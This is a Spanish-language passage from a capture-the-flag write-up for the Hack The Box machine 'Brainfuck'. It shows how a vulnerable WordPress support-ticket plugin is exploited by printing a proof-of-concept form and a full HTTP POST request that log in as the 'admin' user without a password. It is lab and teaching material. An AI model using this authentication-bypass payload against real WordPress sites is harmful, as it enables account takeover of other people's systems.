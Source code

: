 ### Explotacion

Identificamos plugin que es posiblemente explotable wp-support-plus-responsive-ticket-system e identificamos dos nombres de usuarios mas  : admin, administrator.

Bucamos posibles vulnerabilidades del plugin :

![](/assets/images/brainfuck-writeup/wp_support_ticket_vulns.png)

PoC de la vulnerabilidad : 

```
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Basicamente tenemos que enviar un POST a esa direccion con los valores que tenemos, por lo que encendemos nuestro burp hacemos cualquier peticion hacia la url de https://brainfuck.htb y cambiamos esa peticion por esta :

![](/assets/images/brainfuck-writeup/request_wp_admin.png)

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: brainfuck.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
DNT: 1
Connection: close
Cookie: wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

username=admin&email=orestis%40brainfuck.htb&action=loginGuestFacebook
```
